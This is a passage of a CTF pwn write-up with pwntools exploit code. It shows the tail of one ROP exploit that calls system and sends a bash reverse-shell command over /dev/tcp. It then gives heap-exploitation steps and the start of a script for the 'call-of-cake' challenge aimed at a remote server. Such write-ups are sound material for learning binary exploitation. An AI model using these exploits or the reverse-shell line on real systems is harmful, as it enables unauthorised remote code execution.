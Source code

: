 ```python
payload += p64(pop_rdi)+p64(libc.bss(0x800))+p64(pop_rdi+1)+p64(libc.sym['system'])
sh.send(genPayload(libc.address+0x000000000006823a,pop_rdi,payload))
input(">")
sh.sendline(b"/bin/bash -c 'bash -i >& /dev/tcp/ip/2333 0>&1'\x00")
sh.interactive()
```

### call-of-cake

- add exit@GOT 0xb through addStorage(), add 3 times, then exit@GOT = read@PLT, so we can bypass control flow check
- now we can ``call [any address]``, use free@GOT to free chunk of Object1, use exit(0) to control last freed chunk, we can control tcache list
- allow 0x30 chunk above stdin in .bss to leak libc address. and call _init to run again
- allow 0x30 chunk above gm in .bss to leak heap address, and call _init to run again
- construct a String object in heap and it's vtable to call OGG, but the environment isn't satisfied, so we need to call this GG: ``xor edx, edx; xor esi, esi; mov rdi, r15; call qword ptr [rax + 0x58];`` first to adjust rdx register and call OGG successfully

```python
#! /usr/bin/python2
# coding=utf-8
import sys
from pwn import *

context.log_level = 'debug'
context(arch='amd64', os='linux')

def Log(name):
    log.success(name+' = '+hex(eval(name)))

elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

if(len(sys.argv)==1):			#local
    sh = process(["./pwn"])
else:							#remtoe
    sh = remote("34.146.170.115", 10001)

def GDB():
    if(len(sys.argv)!=1):
        return
    gdb.attach(sh, '''
    #break *0x401792
    #break malloc
    #break free

    #break *0x40298B

    #<objectManager::~objectManager()+539> call   rdx
    #break *0x402d91
  

    #<Object1::getNameBuffer()+525> call   rdx
    break *0x4019f5

    break *0x401792

    conti
    ''')

sh.recvuntil('Make call of fake!\n')
for i in range(9):
    sh.recvuntil('str: ')
```